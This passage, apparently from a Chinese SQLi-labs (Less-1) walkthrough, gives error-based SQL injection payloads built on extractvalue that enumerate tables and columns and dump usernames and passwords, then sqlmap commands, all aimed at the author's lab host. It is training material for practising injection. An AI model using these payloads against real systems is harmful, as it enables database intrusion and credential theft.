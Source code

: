 ### **方法二：手工报错型注入**

检测报错型payload

```
?id=1' and 1=1--+   //正确
?id=1' and 1=2--+   //失败
**注意id=正确值
```

爆表payload

```
http://daishen.ltd:1112//Less-1?id=1' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))) --+
```

（字段）payload

```
http://daishen.ltd:1112//Less-1?id=1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'))) --+

```

爆值payload

```
http://daishen.ltd:1112//Less-1?id=1' and extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users))) --+
```

显然没有完全显示

```
http://daishen.ltd:1112//Less-1?id=1' and extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users where username not in ('Dumb','Angelina')))) --+
```

### 方法三：使用sqlmap进行自动化攻击

扫描URL目标

```
sqlmap -u "daishen.ltd:1112/Less-1/?id=1"
```

查看所有库

```
sqlmap -u "daishen.ltd:1112/Less-1/?id=1" -dbs
```

查看所有表

```
sqlmap -u "daishen.ltd:1112/Less-1/?id=1" -D security --tables
```

查看表字段
